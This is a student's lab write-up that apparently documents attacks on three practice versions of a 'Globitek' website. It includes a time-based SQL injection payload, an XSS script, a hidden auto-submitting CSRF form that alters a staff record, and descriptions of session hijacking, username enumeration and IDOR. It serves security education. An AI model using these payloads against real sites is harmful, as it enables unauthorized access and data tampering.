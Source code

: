 # Week 8 - Pentesting Live Targets

Time spent: Roughly 11-12 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)

 * This vulnerability is SQLi.
 * It is taken advantage of the hacker by simply inputting the statement instead of the employee's ID number.
 * %27%20OR%20SLEEP(5)=0--%27

Vulnerability #2: Session Hijacking/Fixation

 * This vulnerability is Session Hijacking/Fixation.
 * It is taken advantage of the hacker by gaining access to the victim's Session ID via hack tools. The session ID is then input to burp suite which changes the session ID and logs the attacker in without issue.
 * Using two seperate browsers, I was able to trick the chrome browser into believing that I was actually the victim.


## Green

Vulnerability #1: Cross-Site Scripting (XSS)

 * This vulnerability is XSS.
 * <script>alert('I found it!! YAY!');</script> is what I used. 
 * The attacker can inject XSS code within the feedback form.
 * The XSS runs as soon as the owner of the account looks at the feedback form.
 * XSS was awesome!

Vulnerability #2: Username Enumeration

 * This vulnerability is Username Enumeration.
 * By the site actually giving you hints and clues. You are able to see when you input jmonroe9 the feedback shows an unbold "Login was unsuccessful". This means that the username doesn't exist. On the other hand when you input jmonroe99 the feedback shows the unsuccessful message in bold which means that the username exists, you just have the wrong password.
 * After all of this, you can go through any list and figure out which would be valid and which wouldn't.
 * Another username is: pperson


## Red

Vulnerability #1: Cross-Site Request Forgery (CSRF)

 * This vulnerability was cross-site request forgery.
 * This was one of the more difficult ones for me. I kept having typos which lead to it not working at first.
 When I got it to work, it was a lot easier. 
 * It consists of creating a malicious page which in return allows the user's session to create a request to the database.
 <html>
  <head>
    <title>This is a Blank Page!</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://xx.xxx.xxx.xx/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Mr. Ken Barker" />
      	<input type="text" name="last_name" value="YOU WERE HACKED" />
      	<input type="text" name="phone" value="123-456-7890" />
      	<input type="text" name="email" value="mrbarker@yougothacked.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>

Vulnerability #2: Insecure Direct Object Reference

 * This vulnerability was Insecure Direct Object Reference.
 * The attacker (me) was allowed to view any account and even those that had been previously deactivated.
 * Simply look for previously deactivated accounts by guessing the low-number ID's.
 * There shouldn't be any feedback on an account that's been deactivated.


## Notes
This lab was difficult for me but fun at the same time. I spend a lot of time actually looking up more information on the types of attacks and what I should know before diving into the lab.
